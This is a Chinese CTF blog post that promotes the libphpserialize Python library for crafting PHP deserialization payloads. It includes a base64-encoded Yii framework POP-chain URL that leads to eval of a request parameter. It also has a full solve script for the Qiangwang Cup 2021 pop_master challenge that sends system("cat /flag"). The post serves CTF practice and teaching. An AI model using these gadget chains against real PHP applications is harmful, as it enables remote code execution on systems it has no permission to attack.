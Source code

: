 ```yaml
---
title: python实现的php序列化
date: 2021-6-15
tags:
    - CTF
    - Toy
---
```


> 就单纯想推销一下[libphpserialize](https://github.com/frankli0324/libphpserialize)

## 如何用Python实现PHP的序列化

1. 脑补
2. 写代码

## 如何使用libphpserialize

### 安装

```bash
pip3 install libphpserialize
```

### 使用

```python
from phpserialize import serialize
print(serialize(1))
```

非常银杏方便

## 为什么不用php自己的serialize？

1. 不用在你的电脑上安装php
2. python有requests/httpx，php没有
3. 简化做题流程

想象一下这样的场景：

你在打一个比赛，在做一道反序列化相关的题目。你启动了一个定时销毁的容器，这个容器限时一个小时。你在第50分钟的时候找到了合适的pop链，并用5分钟用python写出了触发反序列化的python poc。

你慌忙地打开了一个新的文件，将类的定义拷贝了过来，给他们赋了各种属性，然后`echo serialize($obj);`，结果发现有个private属性，于是又慌忙地改成了 `echo urlencode(serialize($obj));`，又在命令行中 `php generate.php`，复制，粘贴进python脚本，执行脚本，最后发现题目里头的反序列化入口处他 `base64_decode` 了一下，于是又回头去将 `urlencode` 改成 `base64_encode`，复制，粘贴，执行python脚本，运行，502，你很愤怒，用浏览器去访问了一下这个链接，发现容器已经过期了。你人麻了。

{% asset_img timeout.png %}

再想象一下这样的场景：

你已经成功地构造好了pop链，但是这个链非常长，而且需要精巧地构造属性值。你觉得用python构造这样的属性最简单，但是又不得不print出来然后粘贴到php代码里。你构造好了 `system('cat /flag');` 的payload，结果发现出题人在 `disable_functions` 中禁用了system函数。你不得不重新来一遍整个流程，构造属性，复制粘贴，生成序列化串，将序列化串粘回到python脚本里，请求。可是你突然发现你构造出来的序列化后的串突然用不了了，你找了10分钟，最后发现由于终端输出的字符数量限制，你只复制了一半。你非常气愤，直接在python脚本里 `payload = input()`，然后直接用管道符运行 `php generate.php | python3 exp.py`，结果发现仍然打不通。你又找了半天，发现php代码里用于调试的几个var_dump没有删。你一怒之下关闭了vscode，打开了LOL，找几个憨批进行一个人的祖安，还破坏了他人的游戏体验。

{% asset_img defeat.jpeg %}

再想象一下：

你的队友找到了一条pop链，但是二话不说给你发过来这样一串谜语

```url
?r=site%2Fabout&message=TzoyMzoieWlpXGRiXEJhdGNoUXVlcnlSZXN1bHQiOjE6e3M6MzY6IgB5aWlcZGJcQmF0Y2hRdWVyeVJlc3VsdABfZGF0YVJlYWRlciI7TzoxNzoieWlpXHdlYlxEYlNlc3Npb24iOjE6e3M6MTM6IndyaXRlQ2FsbGJhY2siO2E6Mjp7aTowO086MzI6InlpaVxjYWNoaW5nXEV4cHJlc3Npb25EZXBlbmRlbmN5IjoxOntzOjEwOiJleHByZXNzaW9uIjtzOjIzOiJldmFsKCRfUkVRVUVTVFsiYW50Il0pOyI7fWk6MTtzOjE4OiJldmFsdWF0ZURlcGVuZGVuY3kiO319fQo=&ant=phpinfo();
```

你的眼睛都要看瞎了，可是你访问了这个url，竟然真的打通了。你接下来想继续往进探一探，于是打开了hackbar，痛苦地一个字符一个字符地去改。你题做完了，眼睛也废了。结果你的憨批队友又不想写wp，想让你来写。你想打游戏，于是也贴了这么一大长串。评论区生气了，说你这谁**看得懂。

如果你有类似的经历，那你可以用libphpserialize来拯救你快乐的一天。

## 示例

{% spoiler 强网杯2021，pop_master %}

```python
from phpserialize import serialize
from requests import session

from phply import phplex
from phply.phpast import *
from phply.phpparse import make_parser

ses = session()
classes = {}
func2class = {}
parser = make_parser()
good_paths = []

with open('class.php') as file:
    lexer = phplex.lexer.clone()
    ast = parser.parse(file.read(), lexer=lexer)
    for cls in ast:
        for i in cls.nodes:
            if type(i) is Method:
                func2class[i.name] = cls.name
        classes[cls.name] = cls


def is_good_assign(ctx_param, node: Assignment):
    assert type(node) == Assignment
    if ctx_param.name == node.node.name:
        if type(node.expr) == BinaryOp:
            if node.expr.op == '.':
                if node.expr.left.name == ctx_param.name:
                    return True
                else:
                    return False
            else:
                print(node)
                # unexpected
        elif type(node.expr) == Variable:
            if node.expr.name == ctx_param.name:
                return True
            return False
        return False
    return True


def handle_if(ctx_param, node: If):
    assert type(node) == If
    if type(node.expr) is BinaryOp:
        # debug
        if eval(str(node.expr.left)+node.expr.op+str(node.expr.right)):
            for n in node.node.nodes:
                if type(n) is Assignment and not is_good_assign(ctx_param, n):
                    return False
    elif type(node.expr) is FunctionCall:
        if node.expr.name == 'method_exists':
            func = node.expr.params[1].node
            assert(type(func) == str)
            search(classes[func2class[func]],
                   node.expr.params[0].node.name, func)
        else:
            print('unexpected call')
    else:
        print('unexpected expr')
    return True


def handle_method(ctx, method):
    ctx.param = method.params[0]
    for i in method.nodes:
        if type(i) is For:
            for n in i.node.nodes:
                if type(n) is Assignment and not is_good_assign(method.params[0], n):
                    return False
        elif type(i) is If:
            if not handle_if(method.params[0], i):
                return False
        elif type(i) is MethodCall:
            search(classes[func2class[i.name]], i.node.name, i.name)
        elif type(i) is Assignment:
            if not is_good_assign(method.params[0], i):
                return False
        elif type(i) is Eval:
            return True


def search(node, attr, method, path=[]):
    path.append((node, attr, method))
    for i in node.nodes:
        if type(i) is Method and i.name == method:
            ctx = type('', (object,), {})()
            if handle_method(ctx, i):
                good_paths.append(list(path))
    path.pop()


good_paths = []
search(classes['dLEWX3'], '', 'L8IHXt')
print(len(good_paths))
for n, a, m in good_paths[0]:
    print(n.name, a, m)


def prop_call(parent, attr, cls):
    setattr(parent, attr, type(cls, (object,), {})())
    return getattr(parent, attr)


root = type('dLEWX3', (object,), {})()
node = root
path = good_paths[0]
for i in range(1, len(path)):
    node = prop_call(node, path[i][1], path[i][0].name)
print(serialize(root))

print(ses.get('http://my_instance.cloudeci1.ichunqiu.com/', params={
    'pop': serialize(root),
    'argv': 'system("cat /flag"); //',
}).text)
```

{% endspoiler %}

这道题需要解析php源码的ast，并且进行搜索，去掉不可用的假链，找到唯一的一条真链。

{% spoiler CTFHUB framework %}

{% asset_img yii.jpg %}

{% endspoiler %}

这道题是一道比较常规的框架反序列化，payload需要base64_encode后发送

WIP
